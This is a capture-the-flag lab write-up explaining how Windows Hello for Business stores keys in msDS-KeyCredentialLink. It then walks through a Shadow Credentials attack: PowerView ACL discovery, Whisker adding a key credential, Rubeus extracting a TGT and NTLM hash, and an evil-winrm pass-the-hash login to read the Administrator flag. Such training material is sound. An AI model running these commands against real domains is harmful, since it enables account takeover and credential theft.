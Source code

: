# Jingle Bells, Shadow Spells

## Notes
With Windows Hello for Business (WHfB), users on the Active Directory domain can access the AD using a PIN or biometrics connected to a pair of cryptographic keys: public and private. The msDS-KeyCredentialLink is an attribute used by the Domain Controller to store the public key in WHfB for enrolling a new user device.
Here's the procedure to store a new pair of certificates with WHfB:
- Trusted Platform Module (TPM) public-private key pair generation: The TPM creates a public-private key pair for the user's account when they enrol. It's crucial to remember that the private key never leaves the TPM and is never disclosed.
- Client certificate request: The client initiates a certificate request to receive a trustworthy certificate. The organisation's certificate issuing authority (CA) receives this request and provides a valid certificate.
- Key storage: The user account's msDS-KeyCredentialLink attribute will be set.
Authentication Process:
- Authorisation: The Domain Controller decrypts the client's pre-authentication data using the raw public key stored in the msDS-KeyCredentialLink attribute of the user's account.
- Certificate generation: The certificate is created for the user by the Domain Controller and can be sent back to the client.
- Authentication: After that, the client can log in to the Active Directory domain using the certificate.

## Solution
- Hit "Start Machine" and open the Split Screen View or connect through RDP.
- What is the hash of the vulnerable user? 
Run the following command to get the vulnerable user.
```bash
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```

![Alt text](image.png)

Run the following command to get the Rubeus command:
```bash
.\Whisker.exe add /target:<VULN USER>
```

![Alt text](image-1.png)

Run the suggested Rubeus command to get the Kerberos TGT and the NTLM hash of the vulnerable user.

![Alt text](image-2.png)

- What is the content of flag.txt on the Administrator Desktop?
The NTLM hash can be passed with evil-winr for example:
```bash
evil-winrm -i 10.10.219.89 -u <VULN USER> -H <HASH>
```

Then browse the path C:\Users\Administrator\Desktop to find the flag.
